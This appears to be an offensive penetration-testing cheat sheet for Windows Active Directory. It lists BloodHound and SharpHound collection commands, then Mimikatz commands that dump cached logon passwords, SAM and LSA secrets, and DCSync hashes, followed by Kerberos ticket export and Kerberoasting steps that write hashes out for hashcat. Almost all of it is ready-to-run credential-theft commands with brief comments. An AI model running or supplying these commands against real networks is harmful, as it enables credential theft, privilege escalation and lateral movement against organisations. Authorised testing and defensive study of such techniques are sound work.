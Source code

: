 ### Bloodhound
```
AzureHound for Azure Active Directory # Install-Module -name Az -AllowClobber | Install-Module -name AzureADPreview -AllowClobber

SharpHound for local Active Directory # run the collector on the machine using SharpHound

"Invoke-BloodHound -CollectionMethod All  -Domain <DomainName> -ZipFileName <file.zip>" # copy zip over to attack machine to run in neo4j DB

```
### Mimikatz Commands
https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a  #Kerberoasting Cheatsheet
```
privilege::debug  #Check Architecture for for correct mimikatz version

#Password / Hash Grabbing Techniques
sekurlsa::logonpasswords  #Dump cached passwords from logins

lsadump::sam #Dumps passwords/hashes in sam file
lsadump::secrets #Dumps passwords

lsadump::dcsync /domain:corp.com /user:jeff_admin #Creates a ntlm hash from DC for lateral move

## Invoke-Mimikatz
Invoke-Mimikatz -DumpCreds -ComputerName XOR-APP59  

Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'

## Ticket Grabbing
net use \\dc01 #Creates a TGS with a domain user

sekurlsa::tickets  #Run with mimikatz
sekurlsa::tickets /export

PS C:\Users\Public\Documents> klist  #klist dumps tickets in powershell

#Invoke-Kerberoast.ps1 to dump tickets:

Import-Module .\Invoke-Kerberoast.ps1

Next type: PS C:\Users\Public> Invoke-Kerberoast.ps1

#Grabbing ticket hashes for hashcat:

Invoke-Kerberoast -OutputFormat Hashcat | % {$_.Hash} | Out-File -Encoding ascii hashes.hashcat

